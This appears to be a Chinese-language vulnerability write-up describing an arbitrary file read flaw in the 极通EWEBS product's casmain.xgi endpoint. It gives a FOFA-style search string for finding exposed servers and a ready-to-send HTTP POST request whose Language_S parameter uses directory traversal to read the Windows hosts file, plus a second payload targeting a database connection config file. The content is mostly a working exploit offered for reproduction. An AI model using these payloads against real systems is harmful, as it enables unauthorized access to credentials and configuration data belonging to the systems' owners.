

# 极通EWEBS casmain.xgi 任意文件读取漏洞

## 漏洞描述

极通EWEBS casmain.xgi 任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

<a-checkbox checked>极通EWEBS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="新软科技-极通EWEBS"</a-checkbox></br>

## 漏洞复现

登录页面如下





漏洞请求包为

```plain
POST /casmain.xgi HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=923b86fa90ce1e14c82d4e36d1adc528; CookieLanguageName=ZH-CN
Content-Length: 57

Language_S=../../../../windows/system32/drivers/etc/hosts
```


可以配合 testweb.php 信息泄露读取敏感信息

```plain
Language_S=../../Data/CONFIG/CasDbCnn.dat
```

